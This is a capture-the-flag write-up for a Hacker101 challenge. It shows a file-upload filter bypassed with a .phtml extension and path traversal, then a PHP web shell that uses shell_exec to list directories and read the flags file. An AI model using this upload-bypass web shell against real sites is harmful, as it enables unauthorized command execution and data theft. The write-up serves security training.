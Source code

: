 # Y2FuIHlvdSByZWNvbj8/

## Description
This write up will show how to solve the CTF for "Y2FuIHlvdSByZWNvbj8/"

**Difficulty:** Moderate

## Solution 1st flag
Fuzzing for files and directories, I get the following result:</br>
```
.htaccess
.hta
.htpasswd
admin
server-status
```
All these end-points return a `403 Forbidden` error.</br>

Try to upload a picture and give it a name `hello.php`.</br>
This will result in an error stating php files are not allowed.</br>
In the application, give the filename hello.phtml and click on Upload.</br>
phtml files are basically php files with a html extension.</br>

Send this request to Repeater in Burp.</br>
When the filename is hello.phtml, we cannot access this at `https://7fc6a5ded79e394cae1864ec42e45609.ctf.hacker101.com/hello.phtml`.</br>
Try path traversal and add ../ in front of the filename: `../hello.phtml`
Just before the last `------WebKitFormBoundaryVE0XKLpD1lkWUlbo--` comment, insert some php code: `<?php echo "Hello World!"; ?>`</br>
When refreshing the /hello.phtml, it will show "Hello World!" on the web page.</br>
Now we know php command execution is possible.</br>

Change the code to include a shell execution: `<?php $out=shell_exec('ls'); echo $out; ?>`</br>
This will show the following files in this folder `admin admin-settings.js hello.phtml index.php`.</br>
When going up 1 folder: `<?php $out=shell_exec('ls ..'); echo $out; ?>`</br>
It shows the following files: `Autoload.php Flag.php Output.php Route.php View.php controllers data flags.txt index.html models public routes view`
There is a flags.txt file, so change the code to `<?php $out=shell_exec('cat ../flags.txt'); echo $out; ?>`</br>
This will show all 3 the flags.
